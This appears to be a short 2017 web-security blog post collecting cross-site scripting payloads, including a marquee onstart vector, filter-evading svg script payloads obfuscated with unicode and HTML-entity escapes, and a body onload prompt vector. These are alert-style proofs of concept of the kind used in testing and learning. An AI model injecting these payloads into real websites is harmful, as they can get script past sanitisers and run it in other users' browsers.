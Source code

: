 ```yaml
---
title: 【websec】collect xss vector
date: 2017-06-08 17:25:44
categories: Web安全
tags:
    - XSS
---
```



## tag

### marquee

```
<marquee onstart=alert(1)>xss</marquee>
```

### svg

```
# <svg><script>\u{61}lert`1`<script></svg>
<svg><script>&#x0005C;u&lcub;61&#125;le</>rt&grave;1&grave;</script></svg>
```

### body

```
<body onload=```${prompt``}`>
```
